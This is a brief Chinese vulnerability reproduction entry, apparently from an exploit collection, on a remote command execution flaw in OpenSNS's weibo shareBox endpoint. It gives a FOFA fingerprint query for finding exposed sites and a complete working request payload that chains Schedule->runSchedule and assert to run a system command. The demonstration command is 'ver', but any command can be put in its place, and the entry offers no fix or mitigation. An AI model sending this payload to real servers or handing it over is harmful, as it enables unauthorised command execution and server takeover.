 # OpenSNS-shareBox-远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

> [!NOTE]
>
> OpenSNS

## FOFA

> [!NOTE]
>
> icon_hash="1167011145"

## 漏洞复现

登录页面如下

![image-20210629150345721](OpenSNS-shareBox-远程命令执行漏洞.assets/1627363047819618.jpg)



发送Payload

```
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```

![image-20210629150412729](OpenSNS-shareBox-远程命令执行漏洞.assets/1627363048219402.jpg)